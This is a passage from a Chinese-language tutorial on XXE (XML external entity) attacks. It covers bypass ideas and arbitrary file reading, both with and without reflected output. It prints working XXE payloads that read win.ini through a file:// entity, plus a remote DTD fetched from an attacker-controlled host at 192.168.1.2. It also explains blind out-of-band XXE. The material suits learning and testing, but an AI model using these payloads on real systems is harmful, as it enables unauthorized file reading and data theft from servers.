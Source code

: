 
---


## 六、xxe绕过

> 
相似协议替换
实体编码绕过
……


---


 

## 七、利用：

### 7.1、任意文件读取

> 
<h4>7.1.1、原理：</h4>
因为外部实体支持伪协议，利用伪协议进行读取

利用XXE漏洞读取目标文件内容，读取/etc/password文件
xml协议不支持命令执行，php协议可以，具体命令执行根据协议功能确定


— — — — — —

> 
<h4>7.1.2有回显：</h4>
通过外部实体调用file://函数读取本地文件，或建立DTD文件进行远程调用
(后面要填写当前文件夹与目标文件夹的相对路径)
— — — — — —
**读取本地文件**
&lt;?xml version="1.0" encoding="utf-8" ?&gt;<br/> &lt;!DOCTYPE foo [<br/> &lt;!ENTITY file SYSTEM  "file:///c:/windows/win.ini"&gt;]&gt;<br/> &lt;user&gt;<br/>   &lt;password&gt;&amp;file;&lt;/password&gt;<br/> &lt;/user&gt;
（foo相当于自己命名的函数名，没什么实际意义）<br/>  
— — — — — —
**建立DTD文件进行远程调用**
  &lt;!DOCTYPE foo [<br/>   &lt;!ENTITY  % xxe SYSTEM "http://192.168.1.2/xxe/evil2.dtd" &gt;<br/>   %xxe;]&gt;<br/>   &lt;foo&gt;&amp;evil;&lt;/foo&gt;<br/>   <br/>   其中外部链接的evil.dtd中内容为：<br/>   &lt;!ENTITY evil SYSTEM "file:///c:/windows/win.ini" &gt;


— — — — — —

> 
<h4>7.1.3、无回显：</h4>

XXE有回显就直接利用，反之，就要利用Blind_OOB_XXE，eg：外部DTD文件

建立一个dtd文件，将.dtd文件存在远程服务器（或VPS）上
恶意执行代码被服务器处理，向攻击者远程服务器发送请求，查找恶意的DTD文件
服务器获取该文件并执行其中的恶意命令

